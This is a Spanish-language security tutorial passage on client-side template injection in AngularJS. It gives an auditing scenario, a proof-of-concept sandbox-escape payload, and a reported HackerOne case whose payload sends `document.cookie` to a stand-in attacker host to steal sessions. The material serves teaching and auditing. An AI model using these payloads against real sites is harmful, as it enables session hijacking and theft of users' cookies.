 ### Escenario

Supongamos que estamos auditando una aplicación web que utiliza AngularJS para renderizar contenido dinámico en el navegador. En el perfil de usuario, se muestra el nombre del usuario utilizando AngularJS.

El código de la plantilla es algo como:

```html
<div>
  Bienvenido, {{ user.name }}.
</div>
````

Pero la aplicación no filtra lo que se muestra y refleja directamente cualquier dato recibido desde el servidor o desde un parámetro GET.

### Prueba de concepto (PoC)

En un campo visible del perfil o mediante un parámetro `GET`, probamos el siguiente payload:

```
{{constructor.constructor('alert("CSTI detectada")')()}}
```

Al cargar la página, se ejecuta `alert("CSTI detectada")` en el navegador. Esto confirma la existencia de la vulnerabilidad.

### Explicación

Este payload explota el motor AngularJS accediendo al constructor del constructor (`Function`) para ejecutar código arbitrario. No se necesita interacción del usuario, lo que demuestra una ejecución directa y peligrosa en el cliente.

---

## Caso real: HackerOne y CSTI en AngularJS

### Descripción

En 2016, se reportó un bug a través de HackerOne en una plataforma que usaba AngularJS para renderizar comentarios de usuarios. Un atacante logró inyectar una expresión maliciosa:

```html
{{constructor.constructor('fetch("https://attacker.com/steal?c="+document.cookie)')()}}
```

Esta expresión se ejecutaba cuando otro usuario visualizaba el comentario, enviando sus cookies al atacante.

### Consecuencias

- **Robo de sesión**: al capturar la cookie de sesión.
    
- **Movimiento lateral**: si se reutilizan tokens de autenticación.
    